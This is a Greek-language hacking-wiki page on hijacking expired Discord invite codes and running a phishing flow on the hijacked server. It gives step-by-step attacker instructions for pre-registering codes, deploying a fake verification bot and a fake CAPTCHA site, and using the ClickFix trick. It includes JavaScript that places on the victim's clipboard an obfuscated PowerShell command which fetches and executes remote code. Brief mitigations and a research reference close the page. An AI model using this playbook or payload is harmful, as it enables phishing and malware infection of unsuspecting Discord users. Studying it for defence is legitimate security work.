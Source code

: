 # Discord Invite Hijacking

{{#include ../../banners/hacktricks-training.md}}

Η ευπάθεια του συστήματος προσκλήσεων του Discord επιτρέπει στους απειλητικούς παράγοντες να διεκδικήσουν κωδικούς προσκλήσεων που έχουν λήξει ή διαγραφεί (προσωρινοί, μόνιμοι ή προσαρμοσμένοι) ως νέους προσαρμοσμένους συνδέσμους σε οποιονδήποτε διακομιστή με Boost επιπέδου 3. Με την κανονικοποίηση όλων των κωδικών σε πεζά, οι επιτιθέμενοι μπορούν να προεγγραφούν σε γνωστούς κωδικούς προσκλήσεων και να υποκλέψουν σιωπηλά την κίνηση μόλις ο αρχικός σύνδεσμος λήξει ή ο πηγαίος διακομιστής χάσει το Boost του.

## Τύποι Προσκλήσεων και Κίνδυνος Υποκλοπής

| Τύπος Πρόσκλησης      | Υποκλέψιμος; | Συνθήκη / Σχόλια                                                                                       |
|-----------------------|--------------|--------------------------------------------------------------------------------------------------------|
| Προσωρινός Σύνδεσμος Πρόσκλησης | ✅           | Μετά την λήξη, ο κωδικός γίνεται διαθέσιμος και μπορεί να ξαναεγγραφεί ως προσαρμοσμένο URL από έναν διακομιστή με Boost. |
| Μόνιμος Σύνδεσμος Πρόσκλησης | ⚠️           | Εάν διαγραφεί και αποτελείται μόνο από πεζά γράμματα και ψηφία, ο κωδικός μπορεί να γίνει διαθέσιμος ξανά.        |
| Προσαρμοσμένος Σύνδεσμος      | ✅           | Εάν ο αρχικός διακομιστής χάσει το Boost επιπέδου 3, η προσαρμοσμένη πρόσκληση γίνεται διαθέσιμη για νέα εγγραφή.    |

## Βήματα Εκμετάλλευσης

1. Αναγνώριση
- Παρακολουθήστε δημόσιες πηγές (φόρουμ, κοινωνικά δίκτυα, κανάλια Telegram) για προσκλήσεις που ταιριάζουν με το μοτίβο `discord.gg/{code}` ή `discord.com/invite/{code}`.
- Συλλέξτε κωδικούς προσκλήσεων που σας ενδιαφέρουν (προσωρινούς ή προσαρμοσμένους).
2. Προεγγραφή
- Δημιουργήστε ή χρησιμοποιήστε έναν υπάρχοντα διακομιστή Discord με προνόμια Boost επιπέδου 3.
- Στις **Ρυθμίσεις Διακομιστή → Προσαρμοσμένο URL**, προσπαθήστε να αναθέσετε τον στοχοθετημένο κωδικό πρόσκλησης. Εάν γίνει αποδεκτός, ο κωδικός διατηρείται από τον κακόβουλο διακομιστή.
3. Ενεργοποίηση Υποκλοπής
- Για προσωρινές προσκλήσεις, περιμένετε μέχρι να λήξει η αρχική πρόσκληση (ή διαγράψτε την χειροκίνητα αν ελέγχετε την πηγή).
- Για κωδικούς που περιέχουν κεφαλαία, η πεζή παραλλαγή μπορεί να διεκδικηθεί αμέσως, αν και η ανακατεύθυνση ενεργοποιείται μόνο μετά την λήξη.
4. Σιωπηλή Ανακατεύθυνση
- Οι χρήστες που επισκέπτονται τον παλιό σύνδεσμο αποστέλλονται ομαλά στον διακομιστή που ελέγχεται από τον επιτιθέμενο μόλις η υποκλοπή είναι ενεργή.

## Ροή Phishing μέσω Διακομιστή Discord

1. Περιορίστε τα κανάλια του διακομιστή ώστε να είναι ορατό μόνο το κανάλι **#verify**.
2. Αναπτύξτε ένα bot (π.χ., **Safeguard#0786**) για να προτρέπει τους νέους χρήστες να επαληθεύσουν μέσω OAuth2.
3. Το bot ανακατευθύνει τους χρήστες σε μια ιστοσελίδα phishing (π.χ., `captchaguard.me`) υπό την προφύλαξη ενός CAPTCHA ή βήματος επαλήθευσης.
4. Εφαρμόστε το κόλπο UX **ClickFix**:
- Εμφανίστε ένα μήνυμα σπασμένου CAPTCHA.
- Οδηγήστε τους χρήστες να ανοίξουν το διάλογο **Win+R**, να επικολλήσουν μια προφορτωμένη εντολή PowerShell και να πατήσουν Enter.

### Παράδειγμα Εισαγωγής Clipboard ClickFix
```javascript
// Copy malicious PowerShell command to clipboard
const cmd = `powershell -NoExit -Command "$r='NJjeywEMXp3L3Fmcv02bj5ibpJWZ0NXYw9yL6MHc0RHa';` +
`$u=($r[-1..-($r.Length)]-join '');` +
`$url=[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($u));` +
`iex (iwr -Uri $url)"`;
navigator.clipboard.writeText(cmd);
```
Αυτή η προσέγγιση αποφεύγει τις άμεσες λήψεις αρχείων και εκμεταλλεύεται οικεία στοιχεία διεπαφής χρήστη για να μειώσει την υποψία των χρηστών.

## Mitigations

- Χρησιμοποιήστε μόνιμους συνδέσμους πρόσκλησης που περιέχουν τουλάχιστον ένα κεφαλαίο γράμμα ή μη αλφαριθμητικό χαρακτήρα (ποτέ δεν λήγουν, μη επαναχρησιμοποιήσιμοι).
- Περιστασιακά αλλάξτε τους κωδικούς πρόσκλησης και ανακαλέστε τους παλιούς συνδέσμους.
- Παρακολουθήστε την κατάσταση ενίσχυσης του διακομιστή Discord και τις αξιώσεις για vanity URL.
- Εκπαιδεύστε τους χρήστες να επαληθεύουν την αυθεντικότητα του διακομιστή και να αποφεύγουν την εκτέλεση εντολών που έχουν επικολληθεί από το πρόχειρο.

## References

- From Trust to Threat: Hijacked Discord Invites Used for Multi-Stage Malware Delivery – [https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/](https://research.checkpoint.com/2025/from-trust-to-threat-hijacked-discord-invites-used-for-multi-stage-malware-delivery/)
- Discord Custom Invite Link Documentation – [https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link](https://support.discord.com/hc/en-us/articles/115001542132-Custom-Invite-Link)

{{#include ../../banners/hacktricks-training.md}}
